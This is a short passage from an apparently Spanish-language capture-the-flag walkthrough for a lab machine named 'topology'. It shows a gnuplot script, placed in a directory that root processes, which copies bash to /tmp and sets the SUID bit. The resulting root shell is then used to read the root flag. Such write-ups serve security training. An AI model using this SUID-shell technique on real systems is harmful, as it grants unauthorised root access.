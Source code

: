 ```bash
drwx------  3 root     root        4096 Nov  3 11:35 systemd-private-8852126f0a5c451abf74265aff631f83-systemd-timesyncd.service-HRtyGf
drwxrwxrwt  2 root     root        4096 Nov  3 11:35 .Test-unix
drwx------  2 root     root        4096 Nov  3 11:36 vmware-root_678-2722697728
drwxrwxrwt  2 root     root        4096 Nov  3 11:35 .X11-unix
drwxrwxrwt  2 root     root        4096 Nov  3 11:35 .XIM-unix
```

Simplemente creando una copia SUID de la bash, ya nos permitirá tomar la última flag.

```bash
vdaisley@topology:/opt/gnuplot$ cat uwu.plt
system "cp /bin/bash /tmp/uwu && chmod u+s /tmp/uwu"
... [wait for it]
vdaisley@topology:/opt/gnuplot$ ls -la /tmp/uwu
-rwsr-xr-x 1 root root 1183448 Nov  3 14:32 /tmp/uwu
vdaisley@topology:/opt/gnuplot$ /tmp/uwu -p
uwu-5.0# cd /root
uwu-5.0# ls
root.txt
uwu-5.0# cat root.txt
ebfef51d26fd85d5a65782de9c******
```